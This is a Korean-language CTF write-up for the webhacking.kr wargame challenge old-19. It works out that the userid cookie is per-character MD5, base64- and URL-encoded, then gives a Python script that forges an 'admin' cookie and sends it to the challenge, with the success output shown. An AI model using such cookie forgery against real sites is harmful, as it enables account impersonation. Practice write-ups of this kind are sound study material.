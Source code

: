# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-14-33-54.png)


# **Write-Up**

제출 버튼을 눌러보면 admin이 아니라고 한다.

![](images/2022-01-03-14-34-23.png)

id를 aa로 하고 제출 버튼을 누르면 Cookie로 userid라는 값이 생긴다.

![](images/2022-01-03-14-34-30.png)

형식을 보면 hash, base64 encoding, url encoding순으로 변환된 값으로 추정된다.

![](images/2022-01-03-14-34-37.png)

aa의 hash는 0cc175b9c0f1b6a831c399e2697726610cc175b9c0f1b6a831c399e269772661인데 이는 'a'의 MD5값이 2번 이어쓴것과 같다. 즉, 한글자씩 md5 hash 값을 추출한듯 하다.

다음과 같은 python script로 점수를 획득할 수 있다.

```python
import hashlib
import base64
import urllib.request

id      = 'admin'
flag    = ''

for c in id: flag += hashlib.md5(c.encode()).hexdigest()

flag    = base64.b64encode(flag.encode())
flag    = urllib.parse.quote(flag)

url     = 'https://webhacking.kr/challenge/js-6/'
header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22;userid='+flag}
request = urllib.request.Request(url, headers=header)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<html>
<head>
<title>Challenge 19</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
hello admin<br><script>alert('old-19 Pwned!');</script><hr>old-19 Pwned. You got 15point. Congratz!<hr><input type=button value='logout' onclick=location.href='?logout=1'>
```